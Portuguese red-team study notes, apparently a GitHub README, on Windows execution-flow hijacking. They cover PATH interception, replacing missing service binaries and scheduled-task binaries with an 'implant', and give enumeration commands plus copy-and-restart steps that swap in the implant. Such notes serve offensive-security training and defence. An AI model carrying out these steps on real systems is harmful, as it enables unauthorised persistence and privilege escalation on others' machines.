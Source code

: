 - Basicamente, procurando por paths de executaveis com perms read/write, a ideia é usar a tecnica de Execution Flow Hijacking [https://attack.mitre.org/techniques/T1574/007/](https://attack.mitre.org/techniques/T1574/007/) para substituir um binario legitimo pelo implant. Fazendo com que o implant, quando executado, "chame" o binario legitimo depois de executar o payload em um processo diferente...

demo em breve???...

READ/REFS:
  - https://helgeklein.com/blog/finding-executables-in-user-writeable-directories/  


> #### Explorando Env Vars paths (Path Interception by PATH Environment Variable)

- Vendo as env vars
- ``` reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" ``` ou ```set```


- Checando perm de write no env PATH
- ```icacls c:\rto\bin```

- Se houver um caminho controlável nesta lista colocado, você poderá fazer com que o sistema execute seus próprios binários em vez dos reais.
- ``` copy c:\implant\implant.exe c:\bin\notepad.exe ```

READ/REFS:
- [https://attack.mitre.org/techniques/T1574/007/](https://attack.mitre.org/techniques/T1574/007/)


> #### Explorando Services sem o binario no path

- Buscando por services sem binario
- ``` c:\autorunsc64.exe -a s | more ```

- Info do service
- ``` C:\> sc query <service-name> ``` - lista services
- ``` C:\> sc qc <service-name> ``` - info do service


- Substituindo o binario
- ``` copy c:implant\implantsrv.exe c:\path-to-service-sem-bin ```

- restart no service:

- ``` sc stop <service-name> sc start <service-name> ```


> #### Explorando Task sem binario no path 

A ideia é a mesma do Service sem binario...

- Buscando por Tasks sem bin:
- ``` c:\autorunsc64.exe -a s | more ```


- Checando configs da Task:
- ``` schtasks /query /tn <task-name> /xml ```

Nas configs procure pelo ```<UserId>``` (CID) para verificar a qual user pertence a task. Olhe também as configs ```<LogonType>``` e ```<RunLevel>``` para mais info do user daquela task.
Por ultimo, verifique a config ```<Triggers>``` que diz como aquela task é iniciada e com isso voĉe saberá como inicia-la.
